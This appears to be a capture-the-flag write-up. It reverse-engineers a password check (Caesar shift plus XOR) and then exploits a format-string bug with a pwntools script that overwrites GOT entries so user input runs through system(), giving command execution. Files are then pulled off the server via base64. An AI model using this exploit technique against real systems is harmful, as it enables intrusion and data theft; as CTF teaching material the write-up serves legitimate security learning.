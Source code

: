 ```yaml
---
title: Vault of Lost Memories
categories: p_ctf{4cqU1r3d_B3y0nd_7h3_M3m0r1es}
tags: 
completedDuringEvent: true
submitted: true
flag: FLAG{0xdeadbeef}
draft: true
---
```

Let's just do a binary analysis using **IDA Pro**.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  sub_401216(a1, a2, a3);
  signal(14, handler);
  alarm(0x64u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( (unsigned int)sub_401259() )
  {
    v4 = -1;
    fwrite("password mismatch!\n", 1uLL, 0x17uLL, stderr);
  }
  else
  {
    v4 = 0;
    sub_401448();
  }
  return v4;
}
```

### Password Crack

It turns out that this program asks for password input, if the password entered is correct, then the program will run `sub_401448()`. However, before that, let's look at the `sub_401259()` function.

```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
  puts("Welcome to the digital vault of lost memories! ");
  puts("Enter the passcode to enter the lost memory world: ");
  printf(">>> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  s[strlen(s) - 1] = 0;
  for ( j = 0; s[j]; ++j )
  {
    v1 = s[j];
    if ( ((*__ctype_b_loc())[v1] & 0x100) != 0 )
    {
      s[j] = (v1 - 65 + dword_404094) % 26 + 65;
    }
    else if ( ((*__ctype_b_loc())[v1] & 0x200) != 0 )
    {
      s[j] = (v1 - 97 + dword_404094) % 26 + 97;
    }
    s[j] ^= dword_404090;
  }
  return (unsigned int)-(memcmp("cLVQjFMjcFDGQ", s, 0xDuLL) != 0);
}
```

From the `sub_401259()` function we can see that the program performs a transformation on the password entered by the user. This transformation consists of two stages, namely Caesar cipher and XOR. After the transformation is complete, the program will compare the transformation result with the string `cLVQjFMjcFDGQ`. If the transformation result is the same as the string, the program will return a value of 0, otherwise, the program will return a value of -1.

```py
dword_404094 = 10   # The Caesar cipher shift value
dword_404090 = 53   # The XOR key

transformed_password = 'cLVQjFMjcFDGQ'
password = ''

for char in transformed_password:
    char = chr(ord(char) ^ dword_404090)

    if char.isupper():
        char = chr(((ord(char) - 65 - dword_404094) % 26) + 65)
    elif char.islower():
        char = chr(((ord(char) - 97 - dword_404094) % 26) + 97)
    
    password += char

print(password)
```

The correct password is `Lost_in_Light`.

### Format String Vulnerability

```c
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);                                    // Format String
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

From the `sub_401448()` function we can see that the program performs string formatting on the input given by the user. After that, the program will run `system("ls *.pdf")`. Because the program performs string formatting on the input given by the user, we can perform a string format attack to get the flag.

Because in string format we can write to the address we want, we can write to any address. Here I do a write on the `putc` function to return to the `sub_401448()` function and write on the `printf` function to run the `system` function.

```py
from pwn import *

binary = './challenge/chal'

# context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('vault.ctf.prgy.in', 1337, ssl=True)

payload = fmtstr_payload(6, {
  e.got['putc']: 0x401448,              # Overwrite putc with sub_401448
  e.got['printf']: e.symbols['system']  # Overwrite printf with system
}, write_size='short')

r.recvuntil(b">>> ")
r.sendline(b"Lost_in_Light")

r.recvuntil(b">>> ")
r.sendline(payload)

r.interactive()
```

When this works, then every time we enter input, what should have been `printf(s);` will become `system(s);` where we can do any command. However, on the server there will be some obstacles, namely all files on the server are `.pdf` files. To get or download the `.pdf` file, we can use the `base64` command to encode the `.pdf` file into base64 and then we decode it locally.

In the last `.pdf` file, we will get a flag.

![alt text](image.png)
